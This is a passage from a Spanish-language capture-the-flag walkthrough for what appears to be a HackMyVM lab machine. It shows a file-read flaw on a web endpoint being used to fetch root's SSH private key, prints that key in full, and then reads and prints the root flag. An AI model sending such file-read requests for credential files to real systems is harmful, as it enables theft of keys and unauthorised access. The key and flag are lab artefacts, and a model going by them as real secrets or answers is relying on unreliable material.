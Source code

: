Vemos que esta leyendo el archivo `.py` por lo que vamos a cambiar esa ruta y vamos a probar con la clave privada de `root`.

```
URL = http://<IP_VICTIM>:9999/getfile?key=/root/.ssh/id_rsa
```

Info:

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
uQ1x5zlzTqI5n3AAAACHJvb3RAZG9jAQI=
-----END OPENSSH PRIVATE KEY-----
```

Veremos que ha funcionado, pero no tenemos `SSH` por lo que vamos a probar a leer directamente la `flag` del usuario `root`.

```
URL = http://<IP_VICTIM>:9999/getfile?key=/root/root.txt
```

> root.txt

```
HMVfinallyroot
```
